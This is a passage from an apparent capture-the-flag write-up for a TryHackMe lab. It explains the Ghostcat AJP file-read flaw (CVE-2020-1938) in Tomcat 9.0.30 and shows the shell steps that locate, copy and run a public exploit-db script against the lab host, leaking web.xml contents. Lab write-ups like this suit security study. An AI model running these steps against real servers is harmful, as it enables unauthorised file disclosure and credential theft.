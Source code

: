 According to `rustscan` result, we have 2 ports are opened:

|Open Port         | Service                       |
|:---:             |:---:                          |
|8009              | Apache Jserv (Protocol v1.3)  |
|8080              | Apache Tomcat 9.0.30          |

### Apache JServ Protocol (AJP) on Port 8009

> AJP is a wire protocol. It an optimized version of the HTTP protocol to allow a standalone web server such as Apache to talk to Tomcat. Historically, Apache has been much faster than Tomcat at serving static content. The idea is to let Apache serve the static content when possible, but proxy the request to Tomcat for Tomcat related content.

According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp#cve-2020-1938-ghostcat), If the AJP port is exposed, Tomcat might be susceptible to the **Ghostcat vulnerability**.

Ghostcat is a LFI vulnerability, but somewhat restricted: only files from a certain path can be pulled. Still, this can include files like `WEB-INF/web.xml` which can leak important information like credentials for the Tomcat interface, depending on the server setup.

Patched versions at or above 9.0.31, 8.5.51, and 7.0.100 have fixed this issue.

**We can use `searchsploit` to search that exploit:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|13:46:23(HKT)]
└> searchsploit apache tomcat      
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
[...]
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                    | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)      | multiple/webapps/49039.rb
[...]
```

**Let's mirror that Python exploit:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|13:46:26(HKT)]
└> searchsploit -m 48143     
  Exploit: Apache Tomcat - AJP 'Ghostcat File Read/Inclusion
      URL: https://www.exploit-db.com/exploits/48143
     Path: /usr/share/exploitdb/exploits/multiple/webapps/48143.py
    Codes: CVE-2020-1938
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /root/ctf/thm/ctf/VulnNet-dotjar/48143.py
```

**After getting a better understanding of the exploit script, we can run it:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|13:50:03(HKT)]
└> python2 48143.py $RHOSTS
Getting resource at ajp13://10.10.203.203:8009/asdf
----------------------------
[...]
  <display-name>VulnNet Entertainment</display-name>
  <description>
     VulnNet Dev Regulations - mandatory
 
1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
```